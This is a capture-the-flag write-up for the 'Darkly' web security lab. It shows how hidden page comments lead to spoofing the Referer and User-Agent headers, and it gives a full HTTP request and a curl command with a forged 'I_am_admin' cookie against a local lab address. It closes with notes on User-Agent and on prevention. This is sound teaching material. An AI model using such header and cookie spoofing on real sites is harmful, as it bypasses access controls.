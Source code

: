 ## Exploiting Referer and User-Agent Headers on Darkly

### Context

By clicking on the "Born to Sec" link at the bottom of the main page:

```
http://192.168.1.33/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f
```

You are redirected to a page about albatrosses. Inspecting the page’s source code reveals hidden comments containing crucial information:

```html
<!--
You must come from : "https://www.nsa.gov/".
-->
<!--
Let's use this browser : "ft_bornToSec". It will help you a lot.
-->
```

---

### Exploitation Steps

#### 1. Analyzing the Comments

- **Referer Requirement:** The page checks if the `Referer` header is set to `https://www.nsa.gov/`.
- **User-Agent Requirement:** The page expects the `User-Agent` header to be set to `ft_bornToSec`.

#### 2. Crafting the Request

Intercept the request using a proxy tool (e.g., Burp Suite) or simulate it using a custom script. The required HTTP request headers are:

```
GET /?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f HTTP/1.1
Host: 192.168.1.33
Accept-Language: fr-FR,fr;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: ft_bornToSec
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Referer: https://www.nsa.gov/
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Connection: keep-alive
```

Alternatively, use `curl` to send the request:

```bash
curl -X GET "http://192.168.1.33/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f" \
     -H "User-Agent: ft_bornToSec" \
     -H "Referer: https://www.nsa.gov/" \
     -H "Cookie: I_am_admin=68934a3e9455fa72420237eb05902327"
```

#### 3. Result

Upon meeting the required headers, access is granted, revealing the desired content or flag.

---

### Understanding User-Agent

A **User-Agent** is a string included in HTTP requests to identify the client (browser, application, or script) to the server. It typically contains information about:

- The client software (e.g., web browser, automated tool like `curl`).
- The operating system (e.g., Windows, Linux, Android).
- The software version or device type.

#### Common Uses of User-Agent:

1. **Customizing Server Responses:**
   - Websites can serve optimized content based on the User-Agent (e.g., mobile vs. desktop versions).
   - Search engines like Googlebot receive specific content for indexing.

2. **Tracking and Analytics:**
   - Administrators use User-Agent data to analyze visitor behavior, including browser and OS usage.

3. **Conditional Access:**
   - Servers may restrict access to specific User-Agents to enforce security or compatibility.

4. **Debugging and Automation:**
   - Tools like `curl` or `wget` use User-Agent strings to mimic browsers during testing or automation tasks.

---

### Preventing Vulnerabilities

To prevent this type of vulnerability, servers should avoid relying solely on HTTP headers such as `Referer` and `User-Agent` for validation. Instead, implement the following:

1. **Server-Side Validation:**
   - Verify the authenticity of requests using server-side checks.
   - Use CSRF tokens to ensure requests originate from legitimate sources.

2. **Avoid Over-Reliance on Headers:**
   - HTTP headers like `Referer` and `User-Agent` are client-controlled and can be spoofed.

3. **Enhanced Logging and Monitoring:**
   - Log header data to identify unusual patterns or malicious activities.


